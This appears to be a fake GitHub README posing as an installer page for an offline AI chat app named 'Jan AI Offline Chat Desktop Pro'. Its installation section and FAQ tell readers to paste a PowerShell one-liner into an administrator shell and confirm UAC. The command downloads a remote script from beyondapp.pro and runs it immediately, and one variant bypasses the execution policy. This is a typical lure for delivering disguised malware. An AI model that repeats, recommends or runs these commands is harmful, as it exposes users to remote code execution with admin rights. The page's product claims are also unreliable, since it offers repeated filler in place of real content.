

<div align="center">


# Jan AI Offline Chat Desktop Pro Desktop Setup Guide
**Private offline ChatGPT-style assistant — conversations stay on your computer.**



</div>

---

> Private offline ChatGPT-style assistant — conversations stay on your computer.

## `ABOUT`

Jan AI Offline Chat Desktop Pro Desktop Setup Guide — Private offline ChatGPT-style assistant — conversations stay on your computer.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

💬 **Offline chat** — Talk to AI without internet after setup.
🔒 **Private** — Conversations stored locally on your PC.
📦 **Model support** — Connect to Ollama, Llama and GGUF models.
🎨 **Clean UI** — Simple desktop chat experience.
🧩 **Extensions** — Expand with plugins and custom assistants.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB recommended |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section above.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>What does this tool do?</b></summary>
<br>Private offline ChatGPT-style assistant — conversations stay on your computer.
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Re-run the same PowerShell command to fetch the latest build.
</details>
